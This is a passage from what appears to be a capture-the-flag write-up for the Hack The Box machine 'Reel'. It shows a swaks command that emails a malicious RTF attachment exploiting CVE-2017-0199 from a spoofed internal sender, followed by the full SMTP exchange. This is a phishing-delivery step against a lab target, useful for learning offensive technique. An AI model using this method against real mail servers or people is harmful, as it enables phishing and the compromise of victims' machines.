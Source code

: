 Now time to send the mail with our malicious RTF file. And I attached the RTF file and send to the `nico@megabank.com`

```bash
root@kali:~/CTF/HTB/Boxes/Reel/CVE-2017-0199# swaks --server 10.10.10.77 --from wolf@megabank.com --to nico@megabank.com  --header 'Subject:Please Review this' --attach Invoice.rtf 
=== Trying 10.10.10.77:25...
=== Connected to 10.10.10.77.
<-  220 Mail Service ready
 -> EHLO kali
<-  250-REEL
<-  250-SIZE 20480000
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> MAIL FROM:[wolf@megabank.com](wolf@megabank.com)
<-  250 OK
 -> RCPT TO:[nico@megabank.com](nico@megabank.com)
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Tue, 11 Aug 2020 21:41:34 +0530
 -> To: nico@megabank.com
 -> From: wolf@megabank.com
 -> Subject:Please Review this
 -> Message-Id: [20200811214134.007039@kali](20200811214134.007039@kali)
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_7039"
 -> 
 -> ------=_MIME_BOUNDARY_000_7039
 -> Content-Type: text/plain
 -> 
 -> This is a test mailing
 -> ------=_MIME_BOUNDARY_000_7039
 -> Content-Type: application/octet-stream; name="Invoice.rtf"
 -> Content-Description: Invoice.rtf
 -> Content-Disposition: attachment; filename="Invoice.rtf"
 -> Content-Transfer-Encoding: BASE64
 -> 
.
.
.
.
 -> 
 -> ------=_MIME_BOUNDARY_000_7039--
 -> 
 -> 
 -> .
<-  250 Queued (12.141 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```
